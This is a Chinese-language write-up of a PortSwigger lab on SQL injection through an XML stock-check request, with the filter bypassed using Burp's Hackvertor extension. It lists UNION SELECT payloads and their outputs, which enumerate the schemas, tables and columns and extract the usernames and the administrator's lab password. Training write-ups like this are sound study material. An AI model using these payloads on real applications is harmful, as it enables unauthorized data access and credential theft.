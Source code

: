 lab link: https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding

## 觀察

用 burp suite 看封包發現有段 XML code:
```
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>
```

用 repeater 傳封包，把 `<storeId>` 的 1 改成 1+1 發現會出現 2 的答案，故可以發現有 SQLinjection
但直接輸入 payload 會被 XML 擋，所以要用 Hackervector (burp suite 的 extension)

繞過成功後就可以開始用平常的方法打

## 打的 payload
### 找 database
```
1 UNION SELECT schema_name FROM information_schema.schemata -- a
```
回傳
```
214 units
public
pg_catalog
information_schema
```

### 找 table
```
1 UNION SELECT table_name FROM information_schema.tables where table_schema = 'public' -- a
```
回傳
```
users
stock_level
products
214 units
```

### 找 column
```
1 UNION SELECT column_name FROM information_schema.columns where table_schema = 'public' and table_name = 'users' -- a
```
回傳
```
214 units
password
username
```

### 找 data
```
1 UNION SELECT username FROM public.users -- a
```
回傳
```
carlos
214 units
administrator
wiener
```

```
1 UNION SELECT password FROM public.users where username='administrator' -- a
```
回傳
```
214 units
ci3wyekjj6f8en257l6g
```

